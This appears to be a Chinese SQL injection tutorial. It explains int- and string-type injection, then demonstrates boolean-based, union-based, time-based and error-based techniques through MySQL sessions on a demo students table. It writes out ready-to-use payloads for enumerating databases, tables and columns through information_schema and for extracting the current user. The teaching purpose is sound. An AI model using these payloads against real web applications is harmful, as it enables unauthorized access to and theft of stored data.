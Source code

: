 ##SQL注入是如何产生的  
SQL注入的根本原因是不安全的操作被带入到数据库中。  
SQL注入从根源上可以分为int类型和string类型。  
1)int类型  

    "select name from students where id = $_GET['id']"
这是一个典型的未经任何过滤的注入，如果用户提交`id=-1 union select user()` ，将返回当前用户。  
2)string类型  

    "select name from students where area = '$_GET['area']'"
string型注入需要使用单/双引号闭合语句。如`area=%27 union select user()%23`。  
在此基础上衍生出报错注入，延时注入，联合注入，编码注入，  

##Boolean-based   
首先不得不讲SQL中的AND和OR  
AND 和 OR 可在 WHERE 子语句中把两个或多个条件结合起来。
AND:返回第一个条件和第二个条件都成立的记录。  
OR:返回满足第一个条件或第二个条件的记录。  
*AND和OR即为集合论中的交集和并集*  

    mysql> select * from students;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)


思考以下语句：  
1)  

    mysql> select * from students where TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)

2)  

    mysql> select * from students where FALSE ;
    Empty set (0.00 sec)


3)  

    mysql> SELECT * from students where id = 10056 and TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)  
    
4)  
    
    mysql> select * from students where id = 10056 and FALSE ;
    Empty set (0.00 sec)  
5)  

    mysql> selcet * from students where id = 10056 or TRUE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    | 10058 | Jaune |  22 |
    | 10060 | Alisa |  29 |
    +-------+-------+-----+
    3 rows in set (0.00 sec)  
    
6)

    mysql> select * from students where id = 10056 or FALSE ;
    +-------+-------+-----+
    | id    | name  | age |
    +-------+-------+-----+
    | 10056 | Doris |  20 |
    +-------+-------+-----+
    1 row in set (0.00 sec)  

**如果你足够细心，你便会发现and 1=1 , and 1=2 即是 and TRUE , and FALSE 的变种**  
这便是最基础的boolean注入,以此为基础你可以自由组合语句，如  
字典爆破流  
`and exists(select * from ?)     //?为猜测的表名`    
`and exists(select ? from x)     //?为猜测的列名`  
截取二分流  
`and (length((select schema_name from information_schema.schemata limit 1))>?)       //判断数据库名的长度`  
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)>'?')`     
`and (substr((select schema_name from information_schema.schemata limit 1),1,1)<'?')      //利用二分法判断第一个字符`  
*真爱生命，使用脚本*  

##Union  
比起多重嵌套的boolean注入，union注入相对轻松。因为，union注入可以直接返回信息而不是布尔值。  
1)  

    mysql> select name from students where id = -1 union select schema_name from information_schema.schemata;   //数据库名  
    +--------------------+
    | name               |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | rumRaisin          |
    | t3st               |
    | test               |
    +--------------------+
    6 rows in set (0.00 sec)  

2)  

    mysql> select name from students where id = -1 union select table_name from information_schema.tables where table_schema='t3st';    //表名
    +----------+
    | name     |
    +----------+
    | master   |
    | students |
    +----------+
    2 rows in set (0.00 sec)  
    
3)  
    
    mysql> select name from students where id = -1 union select column_name from information_schema.columns where table_name = 'students' ;     //列名
    +------+
    | name |
    +------+
    | id   |
    | name |
    | age  |
    +------+
    3 rows in set (0.00 sec)  

UNION 操作符用于合并两个或多个 SELECT 语句的结果集。请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。所以你如果想要使用union查询来进行注入，你首先要猜测后端查询语句中查询了多少列，哪些列可以回显给用户。  
猜测列数  

    union select 1
    union select 1,2
    union select 1,2,3
    //直到页面正常显示  
    
##Time-based  

    mysql> select name from students where id = 10056 or (select * from (select(sleep(5)))A) ;
    +-------+
    | name  |
    +-------+
    | Doris |
    +-------+
    1 row in set (5.00 sec)  

显然我们经过了5s的延迟才返回了数据结果。  

我们可以结合if语句来进行延时注入  

    mysql> select name from students where id = 10056 and if (exists(select * from students),sleep(3),1) ;
    Empty set (3.00 sec)

##Error-based  
根据错误信息提取数据:)  

    mysql> select name from students where id = 10056 and (select ~0+!(select*from(select user())x)) ;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'

